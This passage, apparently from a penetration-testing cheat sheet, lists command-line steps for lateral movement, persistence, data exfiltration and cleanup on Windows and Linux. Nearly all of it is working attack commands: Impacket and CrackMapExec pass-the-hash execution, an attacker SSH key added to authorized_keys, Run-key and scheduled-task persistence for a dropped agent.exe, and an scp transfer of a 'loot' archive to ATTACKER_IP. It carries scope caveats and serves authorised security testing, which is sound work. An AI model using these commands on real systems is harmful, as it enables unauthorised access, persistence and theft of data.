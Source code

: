 11) Lateral movement (examples)

Impacket:
```
# Pass-the-hash or password
wmiexec.py DOMAIN/USER@TARGET_IP
psexec.py DOMAIN/USER@TARGET_IP -hashes LMHASH:NTHASH
smbexec.py DOMAIN/USER@TARGET_IP -hashes LMHASH:NTHASH
```

CrackMapExec (quick checks):
```
crackmapexec smb 10.0.3.0/24 -u USER -p 'PASS' --shares
crackmapexec smb TARGET_IP -u USER -H NTHASH -x "whoami"
```

12) Persistence (only if explicitly allowed)

Linux:
```
# Add authorized key for persistence
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo "ssh-ed25519 AAAA... attacker" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

Windows:
```
# Startup persistence via Run key
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\Windows\Temp\agent.exe" /f

# Or scheduled task
schtasks /Create /SC ONLOGON /TN "Updater" /TR "C:\Windows\Temp\agent.exe" /RL HIGHEST /F
```

13) Data collection and exfiltration (respect scope)

Linux:
```
tar czf /tmp/loot.tgz /var/www/html /home 2>/dev/null
# exfil via scp (if allowed)
scp /tmp/loot.tgz user@ATTACKER_IP:/tmp/
```

Windows:
```
powershell -NoP -W Hidden -C "Compress-Archive -Path C:\inetpub\wwwroot -DestinationPath C:\Windows\Temp\loot.zip"
# Then transfer loot.zip via SMB/HTTP as permitted
```

14) Cleanup (always)
```
# Remove dropped tools, dumps, keys, tasks, services created during test
# Windows examples:
del C:\Windows\Temp\winPEASx64.exe
del C:\Windows\Temp\SAM.save C:\Windows\Temp\SYSTEM.save C:\Windows\Temp\lsass.dmp
schtasks /Delete /TN "Updater" /F
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /f

# Linux examples:
rm -f /tmp/linpeas.sh /tmp/loot.tgz
# Remove added SSH key if you created one for persistence
```
